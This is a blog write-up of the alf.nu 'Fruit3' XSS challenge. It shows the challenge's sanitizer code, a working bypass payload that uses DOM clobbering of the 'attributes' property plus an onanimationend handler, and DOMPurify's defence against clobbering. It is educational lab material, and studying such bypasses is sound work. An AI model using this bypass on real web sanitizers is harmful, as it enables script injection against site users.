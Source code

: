 ```yaml
---
layout: post
title:  "alf.nu XSS challenges Write-ups level18 to level29 (part two)"
date:   2020-10-19 21:46:23 +0800
categories: jekyll update
---
```

# alf.nu XSS challenges Write-ups level18 to level29 (part two)

## Fruit3
### code
```javascript
function escape(s) {
  var div = document.implementation.createHTMLDocument().createElement('div');
  div.innerHTML = s;
  function f(n) {
    if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
    for (var i=0; i<n.attributes.length; i++) {
      var name = n.attributes[i].name;
      if (name !== 'class') { n.removeAttribute(name); i--; }
    }
  }
  [].map.call(div.querySelectorAll('*'), f);
  return div.innerHTML;
}
```
### solution
```javascript
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=attributes></form>
```
### background info
这个XSS主要的技术是dom clobbering. 参考https://portswigger.net/web-security/dom-based/dom-clobbering.DOM clobbering不仅可以利用dom element来控制window scope的变量, 还可以用form元素的子元素input来污染form scope的变量. 

题中的escape函数遍历了n.attributes. 答案POC中的form元素的属性"attributes"就被子元素的的input污染了.

在理解这个原理后, 找一个合适的POC就可以了. 参考https://portswigger.net/web-security/cross-site-scripting/cheat-sheet . 注意本题iframe中autofocus是不能执行的.

dom clobbering对于XSS的sanitizer例如dompurify是一个切实的问题.dompurify是这么解决的
```
 if (
      typeof elm.nodeName !== 'string' ||
      typeof elm.textContent !== 'string' ||
      typeof elm.removeChild !== 'function' ||
      !(elm.attributes instanceof NamedNodeMap) ||
      typeof elm.removeAttribute !== 'function' ||
      typeof elm.setAttribute !== 'function' ||
      typeof elm.namespaceURI !== 'string'
    ) {
      return true;
    }
```javascript
也就是在对逐个元素进行检查的时候, 先检查是否被clobber,再进行sanity check.